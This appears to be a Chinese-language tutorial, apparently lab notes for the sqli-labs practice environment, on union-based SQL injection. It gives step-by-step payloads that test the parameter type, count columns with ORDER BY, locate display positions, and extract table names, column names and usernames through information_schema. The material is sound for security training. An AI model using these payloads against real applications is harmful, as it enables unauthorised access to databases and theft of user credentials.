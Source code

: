   
     - union前后select的列数要一致（列数判断的原因）
  

* 取数据

  * 获取数据库名：security

  * 根据库名查表名:emails,referers,uagents,users
  
    ```sql
  ?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
    ```

  * 查列名:id,username,password

    ```sql
    id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3--+
    ```

  * 查具体数据：如 username

    ```sql
    id=-1' union select 1,(select group_concat(username) from users),3--+
    ```

### 注入方法

#### 	法一：联合查询

##### 1、判断数据类型

```css
?id=1 and 1=1; 正常

?id=1 and 1=2; 正常，结合1=1得出数据类型不是整型

?id=1'; 报错，可能为字符型

?id=1' %23; 正常，可以确认数据类型为字符型。%23为注释符#的意思，注释掉后面的语句，也可以用?id=1' --+来注释。

?id=1' and '1'='1; 正常，使用【'】闭合语句，select *from users where id='1''and '1'=1;这里的'1'=1意思是'1'这种形式输入的参数是否为1(即Bool类型True)，输入格式正确就会返回正常。
```

##### 2、查询列数

```css
?id=1' order by 3 --+ 正常，列数>=3

?id=1' order by 4 --+ 报错，确认列数为3列
```

##### 3、确认显示位

```sql
?id=-1' union select 1,2,3 --+		正常，联合查询注入即union select，由于列数为3列，所以我们允许同时查询三个语句
```
